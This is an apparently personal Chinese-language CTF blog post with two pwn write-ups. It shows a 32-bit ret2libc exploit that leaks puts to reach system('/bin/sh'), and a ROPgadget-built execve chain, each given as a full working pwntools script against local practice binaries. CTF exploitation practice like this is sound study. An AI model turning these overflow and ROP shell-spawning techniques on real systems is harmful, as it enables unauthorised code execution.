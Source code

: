 ```yaml
---
title: '两道水群小题'
date: 2024-01-15 13:00:00 +0800
categories: [leak_libc,one_gadget]
tags: [ctf,pwn]
---
```

## ret2libc1

- `32`位`libc`泄露
- `cyclic`确定溢出位置的使用

<img src="../assets/img/old_imgs/image-20240115131701619.png" alt="image-20240115131701619"  />

> 变量`s`存在泄露,但是这里`ida`显示的栈空间并不准确

![image-20240115131936821](../assets/img/old_imgs/image-20240115131936821.png)

> 程序中存在`system`函数,可以直接利用

```shell
bamuwe@qianenzhao:~/done/杂七杂八$ cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

![image-20240115131923818](../assets/img/old_imgs/image-20240115131923818.png)

```shell
bamuwe@qianenzhao:~/done/杂七杂八$ cyclic -l 0x62616164
112
```

得到溢出位置,`padding=112`

后续就是常规的利用,但是这里要注意第二次发送`payload`的时候栈填充长度是$104$,通过`gdb`调试可以直观的看到,不多赘述,奉上`exp`一则

```python
from pwn import *
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
#context.log_level = 'debug'
io = process('./ret2libc1')
#io = gdb.debug('./ret2libc1')
elf = ELF('./ret2libc1')
payload = b'A'*(112)+p32(elf.plt['puts'])+p32(elf.sym['main'])+p32(elf.got['puts'])
io.sendlineafter(b'RET2LIBC >_<\n',payload)
puts_addr = u32(io.recv(4))
print('puts_addr->{}'.format(hex(puts_addr)))

liboffset = puts_addr - Lib.sym['puts']
sys_addr = liboffset + Lib.sym['system']
bin_sh_addr = liboffset + next(Lib.search(b'/bin/sh'))

payload = b'A'*(100+4)+p32(sys_addr)+p32(0)+p32(bin_sh_addr)
io.sendlineafter(b'RET2LIBC >_<\n',payload)
io.interactive()
```

## rop

- one_gadgets

![image-20240115132428755](../assets/img/old_imgs/image-20240115132428755.png)

第一眼函数很多,什么都没有,但拨云见雾,不过如此

1. 通过`ROPgadgets`得到`ropchain`
2. 构造`payload`得到`shell`

```shell
bamuwe@qianenzhao:~/done/杂七杂八$ ROPgadget --binary rop --ropchain
```

```python
from pwn import *
from struct import pack
io = process('./rop')
padding = b'A'*112
# Padding goes here
p = b''

p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080bb196) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080bb196) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08054590) # xor eax, eax ; ret
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x0806eb91) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8

p += pack('<I', 0x080ea060) # padding without overwrite ebx

p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08054590) # xor eax, eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x08049421) # int 0x80

payload = padding+p
io.sendlineafter(b'What do you plan to do?\n',payload)
io.interactive()
```

